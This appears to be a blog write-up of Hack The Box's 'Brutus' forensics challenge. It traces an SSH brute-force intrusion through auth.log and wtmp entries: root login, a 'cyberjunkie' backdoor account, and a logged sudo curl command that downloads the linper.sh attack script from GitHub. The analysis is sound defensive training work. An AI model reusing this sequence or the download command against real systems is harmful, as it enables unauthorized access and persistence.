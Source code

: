 ```yaml
---
slug: htb-sherlock-brutus
title: 'HTB Sherlock: Brutus'
authors: [cielo]
date: 2025-09-16 # 你可以修改成實際的寫作日期
tags: [security, hack-the-box, tutorial, dfir]
---
```


[Hack The Box](https://www.hackthebox.com/) is an online cybersecurity training platform that allows individuals to test and advance their skills in penetration testing, digital forensics, and incident response. The "Sherlocks" are a series of defensive challenges focused on digital forensics and incident response (DFIR).

This post covers the "Brutus" Sherlock, a scenario where we investigate a brute-force attack against a Confluence server's SSH service. We'll analyze logs to trace the attacker's activities, from initial access to privilege escalation and persistence.

## Getting Started

After downloading and unzipping `Brutus.zip`, we find three files:
*   `auth.log`: A log file from Unix-like systems that records user logins, authentication attempts, and other security-related events.
*   `wtmp`: A binary file that maintains a history of user logins and logouts.
*   `utmp.py`: A Python script to parse the binary `wtmp` file into a human-readable format.

## The Investigation

### T1: Attacker's IP Address
> Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

**Answer:** `65.2.161.68`

By examining `auth.log`, we can see a large volume of failed login attempts from the same IP address in a short period. This is a clear indicator of a brute-force attack.

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: Invalid user admin from 65.2.161.68 port 46444
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: Invalid user admin from 65.2.161.68 port 46436
... (many more attempts)
```

### T2: Compromised Username
> The bruteforce attempts were successful and the attacker gained access to an account on the server. What is the username of the account?

**Answer:** `root`

After numerous failed attempts, the logs show a successful password acceptance for the `root` user from the attacker's IP.

```bash
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

### T3: Manual Login Timestamp (UTC)
> Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

**Answer:** `2024-03-06 06:32:45 UTC`

To find the login time, we need to analyze the `wtmp` file. The challenge provides the `utmp.py` script to parse this binary file. Running `python3 utmp.py wtmp > wtmp.txt` gives us a readable version. In `wtmp.txt`, we find a login entry for the `root` user from the attacker's IP.

```text
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 14:32:45"	"387923"	"65.2.161.68"
```

The timestamp in `wtmp.txt` is `14:32:45`. However, the `auth.log` shows the successful authentication at `06:32:44`. This discrepancy is due to timezone differences. The `utmp.py` script uses `time.localtime()`, which converts the epoch time to the local timezone of the machine running the script. The `auth.log` timestamps are in UTC. The 8-hour difference (`14:32` vs `06:32`) suggests the `wtmp` file was parsed in a UTC+8 timezone. The correct UTC login time is shortly after the authentication time, which is `2024-03-06 06:32:45`.

### T4: Session Number
> SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

**Answer:** `37`

Two successful `root` logins were observed from the attacker’s IP: one created **Session 34**, the other **Session 37**. Session 34 was a short-lived automated login, while Session 37 was the persistent, interactive session where the attacker executed commands.

:::note Why Session 34 Is Not the Correct Answer
* **Instantaneous Logout:** Session 34 was created and terminated in the same second (`06:31:40`), which is not consistent with human behavior.  
* **Tool Behavior:** Brute-force tools (e.g., Hydra, Medusa) often create such non-interactive logins to verify valid credentials, then disconnect immediately.
:::

```bash
# Session 34: Fleeting, automated login
Mar  6 06:31:40 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 systemd-logind[411]: New session 34 of user root.
Mar  6 06:31:40 sshd[2411]: pam_unix(sshd:session): session closed for user root
Mar  6 06:31:40 systemd-logind[411]: Removed session 34.

# Session 37: Persistent, interactive session
Mar  6 06:32:44 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 systemd-logind[411]: New session 37 of user root.

# ... attacker activity followed (e.g., creation of 'cyberjunkie' user)
```

### T5: Persistence - New User
> The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

**Answer:** `cyberjunkie`

A common persistence technique is to create a new user account. The `auth.log` records user management activities, and we can see the `useradd` command being used to create a new user.

```bash
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
```

### T6: MITRE ATT&CK ID
> What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

**Answer:** `T1136.001`

The attacker's action of creating a local user account for persistence maps to the MITRE ATT&CK framework. The specific technique is T1136: Create Account, and the sub-technique is T1136.001: Local Account. You can find more details on the MITRE ATT&CK website.

### T7: Session End Time
> What time did the attacker's first SSH session end according to auth.log?

**Answer:** `06:37:24` on March 6th.

We can find the end of the attacker's session by looking for log entries related to session 37 closing.

```bash
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

### T8: Sudo Command for Privilege Escalation
> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

**Answer:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

After creating the `cyberjunkie` user and adding it to the `sudo` group, the attacker logged in with it and used `sudo` to execute commands with root privileges. The `auth.log` records `sudo` command usage, revealing that the attacker downloaded a privilege escalation script named `linper.sh` from GitHub.

```bash
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```